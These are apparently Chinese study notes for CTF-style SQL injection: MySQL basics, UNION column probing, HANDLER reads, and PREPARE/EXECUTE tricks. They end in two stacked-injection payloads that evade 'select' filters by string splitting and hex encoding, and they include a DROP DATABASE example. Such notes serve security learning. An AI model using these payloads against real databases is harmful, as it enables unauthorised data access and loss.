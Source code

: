 #### 9. 删库
如删test库：
```mysql
DROP DATABASE test;
```

#### 10. 更改表名、字段名
- 修改表名：`ALTER TABLE 旧表名 RENAME TO 新表名;`
- 修改字段：`ALTER TABLE 表名 CHANGE 旧字段名 新字段名 新数据类型;`

### 联合查询
**将两个SELECT结果放在一个结果集里**
例如：
```mysql
SELECT * FROM test.t1 UNION SELECT 1,2;
```
结果：
![[Pasted image 20250123232908.png]]
**sql注入中可以用来查看暴露了几个字段，就是先从SELECT 1开始试，一个个往后加**

又如：
```mysql
SELECT USER,HOST FROM mysql.user UNION SELECT * FROM test.`t1`;
```
结果：
![[Pasted image 20250123233428.png]]

### handler语句——select被禁时可以用来查数据
#不用select如何查数据
可以实现select部分功能
 handler不是通用的SQL语句，是Mysql特有的，可以逐行浏览某个表中的数据，格式：
```
打开表：
HANDLER 表名 OPEN ;

查看数据：
HANDLER 表名 READ next;

关闭表：
HANDLER 表名 READ CLOSE;
```

### 预编译——绕过特定的字符过滤（如select）
#不用select如何查数据
预编译相当于定一个语句相同，参数不同的Mysql模板，我们可以通过预编译的方式，绕过特定的字符过滤
```
PREPARE 名称 FROM Sql语句 ? ;
SET @x=xx;
EXECUTE 名称 USING @x;
```
如：
```
1';Set @a=concat('sele','ct flag from `1919810931114514`;');prepare b from @a;execute b;# 拼接

1';Set @jie = 0x73656c656374202a2066726f6d20603139313938313039333131313435313460;PREPARE an from @jie;EXECUTE an;# 十六进制编码
```
步骤：
> set做好一盘菜——把你要执行的语句写到变量里；
> prepare把菜装到包装里——预编译这个变量里的SQL语句；
> execute出售你做好的预制菜——执行刚才预编译成功的SQL语句。

